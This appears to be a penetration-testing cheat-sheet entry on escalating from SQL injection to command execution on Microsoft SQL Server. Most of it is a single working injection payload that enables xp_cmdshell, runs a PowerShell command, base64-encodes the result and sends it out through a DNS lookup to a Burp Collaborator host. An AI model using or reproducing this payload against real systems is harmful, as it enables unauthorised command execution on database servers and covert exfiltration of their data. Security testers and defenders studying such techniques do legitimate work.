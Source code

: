 # MSSQL Privilege Escalation

## Blind RCE via OOB SQL Injection

The following command enabled xp_cmdshell, and executes a simple powershell command and  get the executed command response in DNS request.

```
random';EXEC sp_configure 'show advanced options', 1; EXEC sp_configure 'xp_cmdshell', 1; reconfigure with override; exec master..xp_cmdshell 'powershell $cmd=whoami;  $enc=[Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($cmd)).trim(''=''); ping -n 1 $enc''.mysubdomainhere.burpcollaborator.net'' '-- -

```

If successfully, on Collaborator you will see:

![burp_collaborator](https://user-images.githubusercontent.com/82765761/123510494-5fc2b880-d695-11eb-9f0c-7c4c2f005aa5.png)

### Reference
https://github.com/man1pulator/pentest_diary

